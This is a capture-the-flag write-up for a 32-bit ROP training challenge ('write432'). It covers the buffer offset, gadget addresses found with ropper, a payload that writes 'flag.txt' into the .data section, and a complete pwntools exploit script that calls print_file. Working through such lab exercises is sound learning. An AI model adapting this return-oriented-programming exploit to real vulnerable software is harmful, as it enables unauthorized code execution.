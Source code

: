 # Contents
* Task Description
* 32 bit
* 32 bit script

## Task Description
Our first foray into proper gadget use.  
A useful function is still present, but we'll need to write a string into memory somehow.

## 32 bit
File checks. No PIE or stack canary.

gdb to find the eip offset. -> 44
Two functions:
* UsefulFunction -> print_file call (0x80483d0)
* UsefulGadget -> loads the ebp into the memory location of the edi (0x08048543)
Get .data section -> readelf -S write432 (0x0804a018)
Now we just need a way of getting data into the edi and ebp

```bash
ropper -f write432 --search pop
0x080485aa: pop edi; pop ebp; ret; 
```

So the payload will be
```txt

buffer
ropper_gadget
data_location
"flag"
usefulgadget

ropper_gadget
data_location+4
".txt"
usefulgadget

usefulfunction
ret_pointer(0x0)
data_location
```

We need a ret pointer as usefulfunction is a call.

Instead of manual exploitation going to use pwntools.

## Script
```python
from pwn import *

data_section = 0x0804a018
pop = 0x080485aa
mov = 0x08048543
print_file = 0x80483d0
  
payload = flat(
	asm('nop') *44,
	
	pop,
	data_section,
	'flag',
	mov,
	
	pop,
	data_section+0x4,
	'.txt',
	mov,
	  
	print_file,
	0x0,
	data_section
)

io=process(['./write432'])
io.sendlineafter('>',payload)
io.recvuntil('Thank you!\n')
flag= io.recv()

success(flag)
```
This works and gives the flag :)

---
Creation date: 13-10-2022

Last modified date: Saturday 12th November 2022
***
